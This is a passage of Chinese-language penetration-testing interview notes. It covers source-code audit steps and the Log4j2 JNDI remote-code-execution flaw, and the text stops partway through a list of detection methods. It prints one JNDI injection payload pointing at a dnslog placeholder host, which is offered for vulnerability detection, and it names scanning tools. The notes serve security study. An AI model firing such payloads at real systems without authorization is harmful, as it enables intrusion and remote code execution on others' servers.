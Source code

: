 答：

（1）信息搜集，如果是CMS网站等，可以找设计文档或者帮助手册

（2）静态代码分析，通过阅读源代码.查看应用程序的文件和目录结构以及检查相关配置文件了解应用程序的结构和逻辑

（3）用户输入和验证，审查代码中的用户输入处理和验证机制，包括表单提交.URL参数.Cookie等。检查是否存在不正确的输入验证或过滤，以及潜在的安全漏洞，如跨站脚本（XSS）.SQL注入等。

（4）访问控制：审查代码中的访问控制机制，包括权限验证.会话管理和页面访问限制等。验证是否存在未经授权的访问.访问控制缺陷或敏感数据泄露等安全问题。

（5）文件操作：检查代码中的文件上传.文件读取和文件包含功能。查找是否存在文件上传漏洞.路径遍历漏洞等安全问题。

（6）数据库安全：审查代码中的数据库查询和数据处理机制，包括SQL语句构造.数据转义和数据库访问控制等。验证是否存在SQL注入.未经授权的数据库访问或敏感数据泄露等问题。

（7）密码安全：审查代码中的密码存储.密码传输和密码重置等功能。查找是否存在明文存储.弱密码加密或未安全传输等密码安全问题。

（8）安全日志：检查代码中的日志记录机制，包括错误日志.访问日志和安全事件日志等。确保适当的日志记录和监测机制存在，以便进行后续的审计和调查。

（9）第三方库和组件：审查代码中使用的第三方库和组件，查找是否存在已知的漏洞或安全问题。确保使用的库和组件是最新版本，并及时应用安全补丁。

（10）漏洞验证：一旦发现潜在的漏洞，尝试利用它们来验证其可利用性和影响。确保在授权的环境中进行漏洞验证，并遵守道德和法律的规定。

（11）编写漏洞报告 

# 4.国内打点常见漏洞面试题

## 1.了解过log4j2的漏洞吗，原理是什么？

### 1-1.Apache Log4j2介绍

Apache Log4j2是一个基于Java的日志记录工具，当前被广泛应用于业务系统开发，开发者可以利用该工具将程序的输入输出信息进行日志记录。

### 1-2.Log4j2漏洞原理（重点）

Apache log4j2-RCE漏洞是由于Log4j2提供的lookup功能下的jndi模块出现问题所导致的，该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源并执行其中的代码，从而造成远程代码执行漏洞。

### 1-3.log4j2漏洞检测（重点）

（1）dnslog手动验证方法

首先在dnslog平台获取一个子域名，尝试构造payload，插入请求数据包。

```
${jndi:ldap://xxx.dnslog.com}
```

通过dnslog平台是否收到请求，初步判断目标环境是否存在漏洞。

（2）Log4j-scan脚本验证

一款用于查找log4j2漏洞的python脚本，支持url检测，支持HTTP请求头和POST数据参数进行模糊测试。

github项目地址：

https://github.com/fullhunt/log4j-scan

（3）Log4j2 burp被动扫描插件
